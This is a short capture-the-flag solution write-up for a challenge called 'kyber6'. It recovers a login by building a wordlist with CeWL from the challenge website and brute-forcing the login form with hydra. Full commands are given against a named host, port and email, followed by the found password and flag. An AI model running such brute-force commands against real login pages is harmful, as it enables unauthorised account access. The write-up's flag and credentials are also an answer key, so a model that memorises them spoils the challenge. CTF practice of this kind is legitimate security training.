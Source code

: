 ## Solution
The email is easy enough, its the only email listed on the website. The password will take a few more steps though.

First, you need to scrape the website for possible passwords using a tool such as CeWL (Custom Word List generator) 
    cewl -w customwordlist.txt -d 2 -m 5 https://solutions.kyberone.com/www/

Next, you need to use a tool such as burp suite to discover how the credentials are being sent. Then you can use a brute force tool like hydra in conjunction with the password list.
    sudo hydra -l kyberinfastructure@gmail.com -P customwordlist.txt 192.168.0.185 -s 9991 sudo hydra -l kyberinfastructure@gmail.com -P customwordlist.txt solutions.kyberone.com https-post-form "/www/backend/login.php:username=^USER^&password=^PASS^:Invalid username or password!"

Email: kyberinfastructure@gmail.com
Password: Millennium
FLAG: kyber6{doordonotthereisnotry}


